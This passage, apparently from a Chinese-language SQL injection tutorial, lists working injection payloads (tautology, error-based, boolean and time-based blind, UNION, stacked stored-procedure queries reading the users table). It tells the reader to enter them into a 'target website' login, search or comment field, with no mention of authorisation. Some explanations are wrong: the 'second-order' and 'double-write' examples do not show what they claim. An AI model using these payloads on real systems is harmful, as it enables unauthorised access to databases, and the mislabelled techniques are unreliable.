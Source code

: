   ```sql
  -- 基本的 SQL 注入语句
  ' OR '1'='1
  ```
- 实践：在目标网站的输入字段中输入 ' OR '1'='1 来观察返回的结果。

  ```text
  在目标网站的输入字段中输入 ' OR '1'='1 来观察返回的结果。
  ```

**4.2 编写注入代码**

**4.2.1 基于错误的注入**

- 实践：输入 ' OR 1=1-- 来触发错误信息，观察返回的错误详情。
  ```text
  在登录表单中输入 ' OR 1=1-- 来触发错误信息，观察返回的错误详情。
  ```

**4.2.2 基于布尔的盲注**

- 实践：输入 ' AND 1=1-- 来确认注入点的有效性，观察页面响应。
  ```text
  在登录表单中输入 ' AND 1=1-- 来确认注入点的有效性，观察页面响应。
  ```

**4.2.3 基于时间的盲注**

- 实践：输入 ' AND IF(1=1, SLEEP(5), 0)-- 来延迟响应时间，观察页面加载时间。
  ```text
  在登录表单中输入 ' AND IF(1=1, SLEEP(5), 0)-- 来延迟响应时间，观察页面加载时间。
  ```

**4.2.4 UNION 基注**

- 实践：输入 ' UNION SELECT 1,2,3-- 来合并结果集，观察返回的额外数据。
  ```text
  在搜索功能中输入 ' UNION SELECT 1,2,3-- 来合并结果集，观察返回的额外数据。
  ```

**4.2.5 二阶段 SQL 注入**

- 实践：首先注入一个存储过程，然后在第二阶段执行该存储过程，观察返回的结果。
  ```text
  在评论系统中输入 '; CREATE PROCEDURE p() BEGIN SELECT * FROM users; END; CALL p();-- 来创建并执行存储过程，观察返回的结果。
  ```

### 5. 高级 SQL 注入技术

**5.1 双写注入**

- 理解双写注入的原理，如通过双写技术绕过输入过滤。

  ```sql
  -- 示例：双写注入
  (SELECT * FROM (SELECT * FROM users)a)
  ```
- 实践：输入 (SELECT * FROM (SELECT * FROM users)a)-- 来注入代码，观察返回的结果。

  ```text
  在搜索功能中输入 (SELECT * FROM (SELECT * FROM users)a)-- 来注入代码，观察返回的结果。
  ```
